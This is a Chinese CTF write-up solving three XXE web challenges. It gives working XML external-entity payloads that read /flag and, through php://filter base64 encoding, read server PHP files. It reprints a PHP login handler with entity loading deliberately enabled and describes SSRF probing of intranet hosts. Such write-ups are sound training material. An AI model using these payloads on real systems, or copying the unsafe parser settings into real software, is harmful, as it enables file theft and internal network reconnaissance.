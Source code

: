 ```yaml
---
title: CTF XXE漏洞攻击
tags: []
categories:
  - CTF-WEB
date: 2020-05-07 15:58:00
---
```

# Fake XML Cookbook
F12 查看源码：

```php
function doLogin(){
	var username = $("#username").val();
	var password = $("#password").val();
	if(username == "" || password == ""){
		alert("Please enter the username and password!");
		return;
	}
	
	var data = "<user><username>" + username + "</username><password>" + password + "</password></user>"; 
    $.ajax({
        type: "POST",
        url: "doLogin.php",
        contentType: "application/xml;charset=utf-8",
        data: data,
        dataType: "xml",
        anysc: false,
        success: function (result) {
        	var code = result.getElementsByTagName("code")[0].childNodes[0].nodeValue;
        	var msg = result.getElementsByTagName("msg")[0].childNodes[0].nodeValue;
        	if(code == "0"){
        		$(".msg").text(msg + " login fail!");
        	}else if(code == "1"){
        		$(".msg").text(msg + " login success!");
        	}else{
        		$(".msg").text("error:" + msg);
        	}
        },
        error: function (XMLHttpRequest,textStatus,errorThrown) {
            $(".msg").text(errorThrown + ':' + textStatus);
        }
    }); 
}
```
可以看到传输的数据是xml类型
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200507154531604.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3pzczE5Mg==,size_16,color_FFFFFF,t_70)


payload打一下：

```php
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE any [
<!ENTITY xxe SYSTEM "file:///flag" >]>
<user><username>&xxe;</username><password>111</password></user>
```
# True XML Cookbook
首先尝试直接读/flag文件，回显了报错信息，但是发现可以读doLogin文件：

```php
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE any[
  <!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/doLogin.php">
]>
<user><username>&file;</username><password>1</password></user>
```
得源码：

```php
//doLogin.php
<?php\n/**
* autor: c0ny1\n* date: 2018-2-7
*/

$USERNAME = 'admin'; //\xe8\xb4\xa6\xe5\x8f\xb7
$PASSWORD = '024b87931a03f738fff6693ce0a78c88'; //\xe5\xaf\x86\xe7\xa0\x81
$result = null;
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
try{
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);

	$username = $creds->username;
	$password = $creds->password;

	if($username == $USERNAME && $password == $PASSWORD){
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
	}else{
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
	}	
}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```
最终是利用ssrf读内网文件：

```php
// /etc/hosts
127.0.0.1	localhost
::1		localhost ip6-localhost ip6-loopback
fe00::0		ip6-localnet
ff00::0		ip6-mcastprefix
ff02::1		ip6-allnodes
ff02::2		ip6-allrouters
173.17.80.9		osrc
```
内网ip，173.17.80.9

```powershell
// /proc/net/arp
IP address       HW type     Flags       HW address            Mask     Device
173.17.80.2      0x1         0x2         02:42:ad:11:50:02     *        eth0
173.17.80.12     0x1         0x2         02:42:ad:11:50:0c     *        eth0
```

最后试了173.17.80.10可以得flag
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200302112638332.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L291YmFzYW5nZGFkYWRh,size_16,color_FFFFFF,t_70)
# ISCC  未知的风险-1
前面是jwt爆破得到秘钥123456伪造user用户就不说了，之后是一个登录框，和上面两个题目差不多，doLogin()方法相同，题目根目录下有flag.php。用xxe读取文件

```php
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE any[
  <!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/flag.php">
]>
<user><username>&file;</username><password>1</password></user>
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200507155154905.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3pzczE5Mg==,size_16,color_FFFFFF,t_70)
>读取/var/www/html是因为这是Apache默认根目录
>
base64解码即可
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200507155712628.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3pzczE5Mg==,size_16,color_FFFFFF,t_70)
# 参考
[某个(忘了)比赛的两道XML](https://blog.csdn.net/oubasangdadada/article/details/104608104)
